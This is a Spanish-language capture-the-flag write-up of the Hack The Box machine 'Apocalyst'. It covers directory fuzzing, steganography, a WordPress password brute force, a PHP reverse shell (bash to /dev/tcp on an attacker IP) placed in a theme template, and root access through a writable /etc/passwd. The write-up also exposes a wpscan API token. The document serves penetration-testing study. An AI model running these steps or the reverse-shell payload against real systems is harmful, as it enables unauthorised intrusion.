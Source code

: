 ------
- Tags: #virtualhosting #wfuzz #cewl #steghide #wpscan #searchsploit #template-abuse-for-RCE
----
# Resolución

## Reconocimiento

### OS

**LINUX**
```shell
ping -c 1 10.10.10.46
PING 10.10.10.46 (10.10.10.46) 56(84) bytes of data.
64 bytes from 10.10.10.46: icmp_seq=1 ttl=63 time=251 ms

--- 10.10.10.46 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 251.414/251.414/251.414/0.000 ms
```

### NMAP

**Puertos**
```js
# Nmap 7.94SVN scan initiated Wed Dec  4 15:09:19 2024 as: nmap -p- --open --min-rate 5000 -vvv -n -Pn -oN allPorts 10.10.10.46
Nmap scan report for 10.10.10.46
Host is up, received user-set (0.25s latency).
Scanned at 2024-12-04 15:09:19 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Dec  4 15:09:34 2024 -- 1 IP address (1 host up) scanned in 15.06 seconds
```

**Servicios**
```js
# Nmap 7.94SVN scan initiated Wed Dec  4 15:13:02 2024 as: nmap -sCV -p22,80 -oN services 10.10.10.46
Nmap scan report for 10.10.10.46
Host is up (0.25s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apocalypse Preparation Blog
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-generator: WordPress 4.8
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Dec  4 15:13:21 2024 -- 1 IP address (1 host up) scanned in 19.02 seconds
```

-------
### Virtual Hosting

**Virtual Hosting** detectado para el servicio HTTP que corre por el *puerto 80* --> **``apocalyst.htb``**, por lo tanto se agregó al ``/etc/hosts``.

------
### Fuerza bruta con WFUZZ

Se realizó un ataque de **fuerza bruta** en búsqueda de directorios existentes a través del diccionario ``directory-list-2.3-medium``. Se encontró en varias rutas una imagen que se **repite** constantemente pero nada más de interés, no se descarta la posibilidad de análisis de imagen.

---

Se creo un **diccionario personalizado** empleando todas las palabras de la web con la herramienta **``cewl``** y se recurrió nuevamente a **``wfuzz``** con el mismo. Esta vez se filtró por los resultados con **157 caracteres** ya que se repetían constantemente.

- **``cewl -w diccionario.txt http://apocalyst.htb/``**
- **``wfuzz --hc=403,404 --hh=157 -c -t 20 -w diccionario.txt -u http://apocalyst.htb/FUZZ/``**

Gracias a este diccionario se detectó una ruta llamada **``Rightiousness``** que posee **más longitud** de caracteres, por lo tanto se descargó la imagen de la ruta y se procedió a su **análisis**.

![[Ap 1.png]]

------
### Análisis de imagen (Esteganografía)

Se utilizó la herramienta **``strings``** para ver caracteres legibles dentro de la imagen *``image.jpg``* pero no se encontró nada.
Se utilizó la herramienta **``exiftool``** para ver los metadatos de la imagen y no se encontró nada de interés.

Se utilizó la herramienta **``steghide``** para realizar una búsqueda de archivos ocultos dentro de la imagen y se encontró un archivo **``list.txt``**

- **``steghide info image.jpg``**

![[Ap 2.png]]

Procedemos a extraer dicho archivo con el siguiente comando.

- **``steghide extract -sf image.jpg``** --> El parámetro **``-sf``** viene de *``Source-File``*.

De esta forma tendríamos a disposición el archivo **``list.txt``** que por su contenido parece ser un **diccionario personalizado**.

### Fuerza bruta con WPSCAN

 Detectamos en el inicio del foro de http://apocalyst.htb que *``falaraki``* es un **usuario válido**, ya que el fue el que realizó uno de los posts, a su vez se verificó esto consultando en la ruta ``/wp-login.php`` que dicho usuario es válido.

![[Ap 3.png]]

También se verificó esto con un script localizado en **``searchsploit``** con el número *45939* que permite la **enumeración de usuarios válidos** a través del protocolo **SSH**.

- **``python2.7 userEnum-SSH.py 10.10.10.46 falaraki``**

![[Ap 4.png]]

Luego de obtener el usuario *``falaraki``* y el **diccionario** personalizado *``list.txt``* se realizó un ataque de fuerza bruta con **``wpscan``** hacia el usuario *``falaraki``*.

- **``wpscan --url http://apocalyst.htb -U falaraki -P list.txt --api-token="vOfyjyhFRl4j4OZa1GPqb2k8UECcA5cOseaCXL5sJDc"``**

![[Ap 5.png]]

Se detectó la contraseña para el usuario ``falaraki:Transclisiation``. Gracias a dicha contraseña conseguí acceder al **``wp-login.php``**.

----
## Explotación

### RCE a través de la modificación de Templates siendo usuario Administrador

![[Ap 6.png]]

Al eliminar todo el contenido del **``404.php``** colocaremos el siguiente código.

```php
<?php
	system("bash -c 'bash -i >& /dev/tcp/10.10.14.25/443 0>&1'");
?>
```

![[Ap 7.png]]

De esta forma al consultar a http://apocalyst.htb/?p=404.php automáticamente se enviará una **Reverse Shell** a nuestra máquina de atacante por el **puerto 443**.

![[Ap 8.png]]

De esta forma ganaríamos acceso a la máquina **Apocalyst**.

----
## Escalada de privilegios

Una vez accedemos a la máquina seremos el usuario ``www-data``, pero como este tendremos acceso al directorio personal de ``falaraki``, por lo tanto reclamamos la **flag** del usuario.

Luego procedemos con la escalada hacia el usuario privilegiado **``root``**.

-----

Realizando una búsqueda desde la raíz se detectó que en el archivo *``/etc/passwd``* poseemos permisos de escritura, por lo tanto lo que hacemos es **crear un Hash de contraseña** con el comando **``openssl``** y luego colocamos dicho Hash en la *``x``* de ``root:x:`` dentro del archivo **``/etc/passwd``**.

- **``openssl passwd``**

Luego proporcionamos cual queremos que sea la contraseña del **usuario** ``root``, en mi caso será **``root``**.

La herramienta me devolvió el Hash **``9Kjm.ADbY8tB.``** que equivale a "*root*", por lo tanto simplemente modificamos el ``/etc/passwd`` y en donde está la "``x``" en el usuario *``root``* colocamos el **Hash**. De esta manera simplemente quedaría autenticarnos con **``su root``** y proporcionando la contraseña ==NO HASHEADA== que en mi caso es *``root``*.

![[Ap 9.png]]

De esta forma habríamos conseguido el acceso total a la máquina **Apocalyst**.